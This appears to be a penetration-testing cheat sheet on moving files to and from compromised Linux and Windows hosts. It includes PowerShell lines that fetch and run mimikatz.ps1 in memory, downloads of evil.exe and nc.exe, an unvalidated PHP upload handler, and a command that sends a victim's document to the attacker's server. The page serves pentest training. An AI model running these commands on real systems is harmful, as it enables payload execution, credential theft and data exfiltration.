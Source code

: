# HTTP

## HTTP Linux Server

```
python -m SimpleHTTPServer 80
python3 -m http.server 80
php -S 0.0.0.0:8000
ruby -run -e httpd . -p 9000
nc -kl 8000 --sh-exec "echo -e 'HTTP/1.1 200 OK\r\n'; date"
```

## HTTP/FTP wget from linux

```
wget http://ip-addr[:port]/file[-o output-file]
```

#### A lesser known usage of wget is its ability to download FTP files as well. To do that, simply prepend a ftp:// before the URL. If the FTP server needs credentials, specify them with --ftp-user=username and --ftp-password=pass.

## HTTP curl from linux/OSX

```
curl http://ip:port/file -o outfile
```

## HTTP powershell from windows

#### oneliner command:

```
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')
```

#### powershell script:

```
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

#### to run the script:

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

#### download and execute a PowerShell script without saving it to disk ( only for powershell scripts)

```
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
```

or

```
(new-object System.Net.Webclient).DownloadString('http://192.168.50.34:8080/mimikatz.ps1') | IEX
```

## http certutil from windows

```
certutil -urlcache -split -f "http://ip-addr:port/file" .[output-file]
```

{% hint style="info" %}
remember to type the dot "." before output file name
{% endhint %}

## http bitsadmin from windows

```
bitsadmin /transfer job /download /priority high http://10.10.14.17/nc.exe c:\temp\nc.exe
```

## http wget from windows (wrapper for WebClient)

{% hint style="info" %}
**Win 8 and later PS Invoke-WebRequest**
{% endhint %}

```
wget "http://10.0.0.10/nc.exe" -outfile "nc.exe"
```

## http VBscript from windows

#### run these commands in order to create a vbscrtipt for downloading a file

```

echo strUrl = WScript.Arguments.Item(0) > wget.vbs 
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs 
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs 
echo Err.Clear >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 
echo http.Open "GET", strURL, False >> wget.vbs 
echo http.Send >> wget.vbs 
echo varByteArray = http.ResponseBody >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs 
echo strData = "" >> wget.vbs 
echo strBuffer = "" >> wget.vbs 
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs 
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs 
echo Next >> wget.vbs 
echo ts.Close >> wget.vbs
```

#### To run our wget.vbs script

```
cscript wget.vbs http://ip-addr:port/file output-file
```

## Windows Uploads Using Windows Scripting Languages

#### since standard TFTP, FTP, and HTTP servers are rarely enabled on Windows by default if outbound HTTP traffic is allowed, we can use the System.Net.WebClient PowerShell class to upload data to our Kali machine through an HTTP POST request create the following PHP script and save it as upload.php in our Kali webroot directory, /var/www/html:will process an incoming file upload request and save the transferred data to the /var/www/uploads/ directory.

```
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

```
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads
```

#### in windows:

```
C:\Users> powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```

